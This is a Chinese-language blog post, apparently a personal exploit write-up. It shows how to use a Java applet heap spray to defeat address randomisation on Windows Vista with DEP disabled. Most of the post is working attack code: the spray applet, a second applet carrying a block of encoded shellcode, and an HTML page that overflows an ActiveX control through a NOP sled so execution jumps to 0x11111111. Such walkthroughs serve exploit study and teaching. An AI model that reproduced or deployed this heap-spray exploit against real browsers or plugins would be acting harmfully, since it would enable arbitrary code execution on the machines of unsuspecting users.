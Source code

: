 ```yaml
---
layout:		post
title:		利用Java applet heap spray技术定位内存地址
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows vista Professional sp0 x86  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>JRE版本: 1.4.2_06  
>注意: 关闭系统DEP  
<!-- more -->


新建AppletSpray.java, 贴入以下代码

```
//AppletSpray.java

import java.applet.*;
import java.awt.*;

public class AppletSpray extends Applet{
	public void init(){
		String[] mem=new String[1024];
		StringBuffer buffer=new StringBuffer(0x100000/2);
		buffer.append("\u8281\u8182");
		for(int i=0;i<(0x100000-16)/2;i++)
			buffer.append('\u9090');
		Runtime.getRuntime().gc();
		for(int j=0;j<90;j++)
			mem[j]+=buffer.toString();
	}
}
```

编译Applet

```
> javac path\to\*.java -target 1.1
```

新建test.html, 贴入以下代码

```
<html>
<body>
<applet code=AppletSpray.class width=300 height=50></applet>
<script>alert("开始溢出!");</script>
</body>
</html>
```

OD附加上去, 在内存检索0x81828281

![](/assets/img/exploit/2017-12-30-break-aslr-java-applet-heap-spray/0x00.png)

重启后

![](/assets/img/exploit/2017-12-30-break-aslr-java-applet-heap-spray/0x01.png)

选择0x11111111作为稳定的跳转地址, 填充shellcode

```
//exp.java

import java.applet.*;
import java.awt.*;

public class exp extends Applet{
	public void init(){
		String shellcode="\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842" +
            	"\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78" +
            	"\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af" +
            	"\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978" +
            	"\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c" +
            	"\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530" +
            	"\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50" +
            	"\u90d7";
		String[] mem=new String[1024];
		StringBuffer buffer=new StringBuffer(0x100000/2);
		for(int i=0;i<(0x100000-14)/2-shellcode.length();i++)
			buffer.append('\u9090');
		buffer.append(shellcode);
		Runtime.getRuntime().gc();
		for(int j=0;j<90;j++)
			mem[j]+=buffer.toString();
	}
}
```

新建exp.html

```
<html>
<body>
<applet code=exp.class width=300 height=50></applet>
<object classid="clsid:A5E74D94-AAB9-4A83-8216-250BA9D9E578" id="test"></object>
<script>
var s = "\u9090";
while(s.length < 54){
	s += "\u9090";
}
s += "\u1111\u1111";
test.test(s);
</script>
</body>
</html>
```

pwn~

![](/assets/img/exploit/2017-12-30-break-aslr-java-applet-heap-spray/0x02.png)